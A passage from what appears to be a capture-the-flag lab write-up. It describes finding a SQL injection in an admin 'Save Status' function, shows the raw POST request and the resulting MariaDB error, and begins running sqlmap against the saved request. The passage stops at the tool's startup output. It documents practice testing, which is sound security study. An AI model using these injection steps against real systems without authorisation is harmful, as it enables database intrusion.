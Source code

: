 Having said that, there is another easy and lazy way to win this flag - this is not an easy SQLi point to find though. I have encountered such function while doing flag 2 but because of this it also blinded me from thinking that it is related to flag 3. In a real test, however, we should go through each of the functionality one by one (and systematically) so we won’t miss any. (or, for completeness since the client paid us for that)
I went through an awful lots of admin functions such as the Search function in Full Summary or Add User which I come across in testing because they are usually the weak spots. Yet, unfortunately, the injection points aren’t there. It’s until I revisit the Records Management I was able to discover a SQL injection point at the `Save Status` function. 
 

 ![image](https://user-images.githubusercontent.com/94167587/144218078-6c85aaa4-b0da-4a46-8381-9033a10af904.png)

 
```
POST /admin/records.php?p=1& HTTP/1.1

Host: [..snip..]:81

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Referer: http://[..snip..]:81/admin/records.php

Content-Type: application/x-www-form-urlencoded

Content-Length: 379
[..snip..]
status%5B1379%5D=0&change=Save+status
```
The response of such request has revealed a SQL error message after supplementing a `‘` , which tempted me to enumerate further.
```
Error: You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '1352'' at line 1	
```

**The easy and lazy way - SQLMap**

For this SQLi, I leverage the help from sqlmap, which comes in handy (also lazy). Many people would recommend a manual exploitation to understand SQLinjection, which I cannot agree more.

**Step 1 – Confirming the injection point**

I first save the request into a *search.req* file so I can parse the request easily when using SQLinjection
Next, I use the `–current-user` extension to confirm the injection point.
```
sqlmap -r search.req --current-user
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.5.10#stable}
|_ -| . ["]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 19:03:18 /2021-11-30/

[19:03:18] [INFO] parsing HTTP request from 'search.req'
```